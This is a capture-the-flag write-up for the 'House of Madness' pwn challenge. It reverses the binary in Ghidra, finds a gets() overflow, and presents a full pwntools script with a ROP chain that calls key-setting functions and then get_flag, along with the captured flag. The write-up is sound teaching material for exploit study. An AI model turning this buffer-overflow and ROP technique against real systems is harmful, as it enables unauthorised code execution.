


# House of Madness

## Description

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> 
> nc challenges.auctf.com 30012
> 
> Note: ASLR is disabled for this challenge

The corresponding binary is given.

## Solution

Let's connect to the server and play a little bit with the game. We can enter rooms, get information about them. Most rooms are uninteresting, except room 4, which allow us to enter input and echoes it back. Plus when trying to quit the game, it prompts us to try to enter `Stephen` in room 4, and then we get to a hidden room, where we can also give an input.



Let's reverse the binary with [Ghidra](https://ghidra-sre.org/) to find vulnerabilities. Most functions behave as they should, and there are no input vulnerabilities such as buffer overflow or format strings, except for the input we can insert in the hidden room.

```c
void room4(void)
{
  int iVar1;
  char local_2c [16];
  char local_1c [20];
  
  puts("Wow this room is special. It echoes back what you say!");
  while( true ) {
    if (unlockHiddenRoom4 != '\0') {
      puts("Welcome to the hidden room! Good Luck");
      printf("Enter something: ");
      gets(local_1c);
      return;
    }
    printf("Press Q to exit: ");
    fgets(local_2c,0x10,stdin);
    remove_newline(local_2c);
    printf("\tYou entered \'%s\'\n",local_2c);
    iVar1 = strcmp(local_2c,"Q");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_2c,"Stephen");
    if (iVar1 == 0) {
      unlockHiddenRoom4 = '\x01';
    }
  }
  return;
}
```

Indeed, input in the hidden room is read with `gets` which is vulnerable to buffer overflows. We see a function `get_flag`, so let's jump there with our buffer overflow.

Sadly this is not that easy, as several checks are performed before printing the flag. As the flag is opened before the checks, we cannot bypass them by jumping in the middle of function. So let's try to get those checks true.

```c
void get_flag(void)
{
  int iVar1;
  char local_60 [64];
  FILE *local_20;
  
  local_20 = fopen("flag.txt","r");
  if (local_20 == (FILE *)0x0) {
    puts("\'flag.txt\' missing in the current directory!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if ((((key1 != '\0') && (key2 != '\0')) && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) &&
     ((key4._4_4_ ^ 0x537472 | (uint)key4 ^ 0x616e6765) == 0)) {
    fgets(local_60,0x40,local_20);
    printf("Damn you beat the house: %s\n",local_60);
    return;
  }
  if (((key1 != '\0') && (key2 != '\0')) && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    printf("Surrender, Stephen. Surrender to the reverser");
    return;
  }
  if ((key1 == '\0') || (key2 == '\0')) {
    printf("It\'s not going to be that easy. Come on");
  }
  else {
    puts("You think you are ready? You are ready when the relic decides you are ready.");
  }
  return;
}
```

There are 4 steps:
- setting `key1` to a non zero value
- setting `key2` to a non zero value
- setting `key3` to `Dormammu`
- setting `key4` to a defined value.

Hopefully, we can see that several functions do this for us:

```c
void get_key1(int param_1)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if ((*(char *)(iVar1 + 0x296b) == '\x01') || (param_1 != -0x1123f22)) {
    if (*(char *)(iVar1 + 0x296b) == '\x01') {
      if (*(char *)(iVar1 + 0x296b) == '\0') {
        puts((char *)(iVar1 + 0xcf6));
      }
      else {
        puts((char *)(iVar1 + 0xcd9));
      }
    }
    else {
      puts((char *)(iVar1 + 0xc76));
    }
  }
  else {
    *(undefined *)(iVar1 + 0x296c) = 1;
  }
  return;
}

void get_key2(void)
{
  int iVar1;
  
  if ((key1 != '\x01') && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    key2 = 1;
    return;
  }
  puts("Need to get the right keys. Reverse the house harder");
  return;
}

void set_key4(void)
{
  int iVar1;
  
  if ((((isInRoom != '\x01') && (key1 != '\0')) && (key2 != '\0')) &&
     (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    key4._0_4_ = 0x616e6765;
    key4._4_4_ = 0x537472;
    return;
  }
  puts("Need to get the right keys. Reverse the house harder");
  return;
}

void AAsDrwEk(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  *(int *)(iVar1 + 0x286b) = iVar1 + 0xc40;
  return;
}
```

So we can see that we need to call them in the correct order:
- first call `AAsDrwEk` to set `key3` (we see with a debugger that the string `Dormammu` is located at `iVar1 + 0xc40` and `iVar1 + 0x286b` is `key3`)
- second call is `get_key2` because it needs `key1` to not be `1`. It sets `key2` to `1`
- third call is to `get_key1`, and we should provide it an argument (on the stack) to be `0xfeedc0de`.
- fourth call is to `set_key4`, which require all previous arguments to be set in order to set `key4` to the correct value.
- last, we can call `get_flag`.

Therefore our payload to overflow the return address is the following:
- some characters to overflow the buffer, other local variables on the stack and the `ebp` pointer. Next value will be the return value.
- address of `AAsDrwEk`
- address of `get_key2`
- address of `get_key1`. We need to give it an argument, and by debugging we see that it fetches the value of the argument two values deeper in the stack
- this place will be the function called after `get_key1`. As we're pushing an argument on the stack, we want to remove it, so let's use a gadget here.
- `0xfeedc0de` as argument to `get_key1`
- address of `set_key4`
- address of `get_flag`

As we're pushing an argument on the stack, we'll want to pop it. To this end let's use a [gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) to pop a value on the stack.

To find one, we use [ROPGadget](https://github.com/JonathanSalwan/ROPgadget).



With this we find our gadget (we need to add the constant offset but this is known with `gdb`).

Finally we have our chain!

```python
from pwn import *

sh = remote("challenges.auctf.com", 30012)

# First get to hidden room
print(sh.recvuntil("Your choice:").decode())
sh.sendline("2")
print(sh.recvuntil("Choose a room to enter:").decode())
sh.sendline("4")
print(sh.recvuntil("Your choice:").decode())
sh.sendline("3")
print(sh.recvuntil("Press Q to exit:").decode())
sh.sendline("Stephen")
print(sh.recvuntil("Enter something:").decode())

# Craft payload

AAsDrwEk = 0x565567cd
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_flag = 0x5655686b
popgadget = 0x5655601e
set_key4 = 0x565567e9
feedcode = 0xfeedc0de

payload = b'0'*28 + p32(AAsDrwEk) + p32(get_key2) + p32(get_key1) + p32(popgadget) + p32(feedcode) + p32(set_key4) + p32(get_flag)
print(payload)
sh.sendline(payload)
sh.interactive()
```

Flag: `auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}`